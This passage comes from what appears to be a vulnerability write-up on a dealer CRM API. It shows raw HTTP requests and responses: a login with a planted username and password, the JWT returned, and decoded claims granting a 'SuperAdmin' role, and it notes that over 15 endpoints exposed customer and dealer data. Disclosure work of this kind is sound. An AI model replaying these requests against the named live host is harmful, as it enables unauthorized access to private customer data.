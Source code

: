 
```
HTTP/1.1 200 OK


{"message":"Ok","userId":99999}
```
Based on the response we now have the username and the updated password in the system. By now you might have guessed what we did next:


```
POST /api/user/login HTTP/1.1
Host: user.dealercrm.co.in
 
{"username":"CRM66666","password":"test"}


```


Response:


```
HTTP/1.1 200 OK


{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.<TOKEN>","expiration":"2025-03-03T00:45:44Z","loginStatus":"","mspinExpired":"","lastLogindate":"","lastPasswordChangeDate":"","changePasswordStatus":"Mar 19 2025 9:51AM","otherLogin":"SMR","checkMspinFlag":1}
```
Success! We finally received a valid JWT token in the response—and what we found inside was far more interesting than expected.

Upon decoding the token, one claim immediately stood out: a role assignment with the value "SuperAdmin". This wasn't just any user — it was likely that our user was created with elevated privileges and potentially unrestricted access across the system.

```
{
  "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "SuperAdmin",
  "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/anonymous": "100000",
  "exp": 1740042829,
  "iss": "https://user.dealercrm.co.in/",
  "aud": "https://user.dealercrm.co.in/"
}
```



Now it was only a matter of sending requests with valid request parameters.

To be fair, it was a little overwhelming going through all the APIs and identifying impactful endpoints that made sense and with minimal request params. I also remember sharing the API json list to chatgpt to help us shortlisting based on the above criteria. 

Ultimately, we successfully interacted with over 15 endpoints that exposed sensitive customer and dealer data. Below, I’ve highlighted the most impactful requests we uncovered during the assessment.
